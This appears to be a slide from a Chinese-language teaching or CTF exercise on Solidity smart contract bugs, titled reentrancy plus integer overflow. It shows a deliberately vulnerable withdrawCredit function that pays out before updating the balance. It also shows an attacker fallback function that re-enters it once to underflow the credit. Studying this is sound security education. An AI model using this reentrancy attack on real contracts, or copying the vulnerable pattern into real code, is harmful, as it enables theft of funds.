

# 题目：重入漏洞+整型溢出
mapping(address => uint) public creditOf;
……
function withdrawCredit(uint amount) public{
        require(creditOf[msg.sender] >= amount);
        msg.sender.call.value(amount*1000000000)();
        creditOf[msg.sender] -= amount;
    }
 function () public payable {
        if (!isEnter) {
            isEnter = true;
            magic_bank.withdrawCredit(1);
	}
    }